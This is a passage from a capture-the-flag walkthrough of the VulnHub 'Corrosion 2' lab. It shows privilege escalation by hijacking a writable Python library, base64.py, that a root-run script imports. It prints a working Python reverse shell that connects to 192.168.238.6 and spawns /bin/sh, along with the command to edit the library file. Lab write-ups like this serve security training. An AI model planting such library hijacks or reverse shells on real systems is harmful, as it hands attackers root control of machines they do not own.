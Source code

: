 look's we can write base64.py , we can see root can run randombase64.py , so let's get shell from there.
![[]](/assets/img/vulnhub/corrosion/corrosion-2/img_10.png)

```
/usr/lib/python3.8/base64.py                                                                                                                                                                                       

```

![[]](/assets/img/vulnhub/corrosion/corrosion-2/img_11.png)

we will change base64.py file and write reverse shell inside that , after run randombase64.py we will get root shell 
```
import socket
import subprocess
import os
:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.238.6",4542))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/sh","-i"])
```

### Reverse shell with Python Module

open file
```bash
vi /usr/lib/python3.8/base64.py
```

![[]](/assets/img/vulnhub/corrosion/corrosion-2/img_12.png)
